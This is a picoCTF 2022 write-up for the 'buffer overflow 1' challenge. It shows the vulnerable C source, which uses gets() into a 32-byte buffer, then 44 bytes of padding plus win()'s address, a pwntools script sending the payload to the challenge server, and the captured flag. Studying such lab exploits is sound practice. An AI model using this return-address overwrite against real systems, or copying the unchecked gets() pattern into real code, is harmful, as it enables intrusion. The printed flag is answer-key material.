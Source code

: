 # picoCTF 2022 buffer overflow 1 (Binary Exploitation 200 points)
The challenge is the following,

![Figure 1](img/challenge.png) 

We are also given the executable file [vuln](./files/vuln) and its source code [vuln.c](./files/vuln.c),

```
1.  #include <stdio.h>
2.  #include <stdlib.h>
3.  #include <string.h>
4.  #include <unistd.h>
5.  #include <sys/types.h>
6.  #include "asm.h"
7. 
8.  #define BUFSIZE 32
9.  #define FLAGSIZE 64
10. 
11. void win() {
12.   char buf[FLAGSIZE];
13.   FILE *f = fopen("flag.txt","r");
14.   if (f == NULL) {
15.     printf("%s %s", "Please create 'flag.txt' in this directory with your",
16.                     "own debugging flag.\n");
17.     exit(0);
18.   }
19. 
20.   fgets(buf,FLAGSIZE,f);
21.   printf(buf);
22. }
23. 
24. void vuln(){
25.   char buf[BUFSIZE];
26.   gets(buf);
27. 
28.   printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", get_return_address());
29. }
30. 
31. int main(int argc, char **argv){
32. 
33.   setvbuf(stdout, NULL, _IONBF, 0);
34.   
35.   gid_t gid = getegid();
36.   setresgid(gid, gid, gid);
37. 
38.   puts("Please enter your string: ");
39.   vuln();
40.   return 0;
41. }
```

Here, `gets()` is used in line 26, which is a vulnerable function because it doesn't check for overflow, so I will be exploiting that. I saw that the function `win()` is the function that contains the flag reader, so this is the function I want to jump to. I used `pwndbg` and used `info functions`.

![Figure 1](img/gdb.png) 

I saw that `win()` was in `0x080491f6`, so this is the return address that I want to overwrite. I know that 44 bytes can be used to overflow the buffer and rewrite the return address, so I prepared the padding of 44 `A`,

`AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA`

I assumed that I needed to swap the endianness for the return address, so I used,

`\xf6\x91\x04\x08`

Then I put everything together into the following [exploit.py](./files/exploit.py),

```
from pwn import *

#elf = context.binary = ELF("./vuln")
context.arch = 'amd64'
gs = '''
continue
'''

def start(server=True):
        if(server):
                return remote('saturn.picoctf.net', 53520)
        else:

                return process(['./vuln'])

io = start()

#io.recvuntil(">>")
a = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
a += "\xf6\x91\x04\x08"
io.sendline(a)

io.interactive()

```

I executed this script, which connected to the remote server and inputted the padding and return address,


![Figure 1](img/flag.png) 


Therefore, the flag is,

`picoCTF{addr3ss3s_ar3_3asy_b9797671}`
